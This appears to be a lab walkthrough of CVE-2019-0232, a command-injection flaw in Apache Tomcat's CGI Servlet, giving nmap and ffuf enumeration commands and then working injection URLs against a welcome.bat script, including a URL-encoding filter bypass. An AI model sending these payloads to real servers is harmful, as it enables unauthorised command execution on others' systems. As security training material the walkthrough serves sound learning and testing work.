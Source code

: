 ## 1. Vulnerability Overview

### CVE-2019-0232 - Remote Code Execution (RCE)

- **Description:** Allows remote code execution due to improper input validation in the CGI Servlet when `enableCmdLineArguments` is set to `true`.
    
- **Affected Versions:**
    
    - Tomcat **9.0.0.M1 to 9.0.17**
        
    - Tomcat **8.5.0 to 8.5.39**
        
    - Tomcat **7.0.0 to 7.0.93**
        
- **Cause:**
    
    - The CGI Servlet fails to properly sanitize user-supplied input from the query string, leading to command injection.
        

---

## 2. Enumeration

### Nmap Scan

Identify open ports and running services, particularly Apache Tomcat.

```bash
nmap -p- -sC -Pn 10.129.204.227 --open
```

### CGI Script Discovery (ffuf)

Discover CGI scripts using directory fuzzing.

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

This command fuzzes for CGI scripts with the `.bat` extension and may reveal `welcome.bat`.

---

## 3. Exploitation

### Basic Command Injection

Execute the `dir` command to list files.

```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

### Retrieve Environment Variables

Check for useful system environment variables.

```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```

This can reveal critical information, such as the `PATH` variable being unset.

### Hardcoded Path Execution (whoami)

Attempt to execute `whoami.exe` by specifying its full path.

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

This may fail if special characters are filtered.

### URL Encoding Bypass

Bypass character filtering using URL encoding.

```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

This allows execution of `whoami.exe` despite input restrictions.

---

## 4. Key Considerations

- The `enableCmdLineArguments` setting **must be enabled** for this exploit to work.
    
- The `&` character is used to separate commands in the injection.
    
- If the `PATH` environment variable is unset, commands must be executed with their **full path**.
    
- URL encoding can help bypass character filtering.
    
- **Only test on systems you have explicit permission to assess.**
    
- **Replace IP addresses, ports, and URLs with your specific target information.**
    

---

## 5. Commands Summary

```bash
# Nmap Scan - Identify open ports
nmap -p- -sC -Pn 10.129.204.227 --open

# ffuf - Discover CGI scripts
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

# Basic command injection (dir)
http://10.129.204.227:8080/cgi/welcome.bat?&dir

# Retrieve environment variables
http://10.129.204.227:8080/cgi/welcome.bat?&set

# Execute whoami using hardcoded path
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe

# URL encoded path execution
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```